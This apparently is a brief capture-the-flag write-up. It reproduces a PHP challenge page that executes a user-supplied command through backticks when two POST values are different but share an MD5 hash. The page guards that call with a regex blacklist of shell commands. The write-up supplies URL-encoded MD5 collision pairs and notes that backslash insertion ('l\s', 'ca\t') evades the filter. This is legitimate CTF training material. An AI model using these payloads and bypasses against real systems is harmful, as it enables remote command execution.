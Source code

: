 ```php
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

`ls`可以用`l\s`绕过,`cat`同理`ca\t`

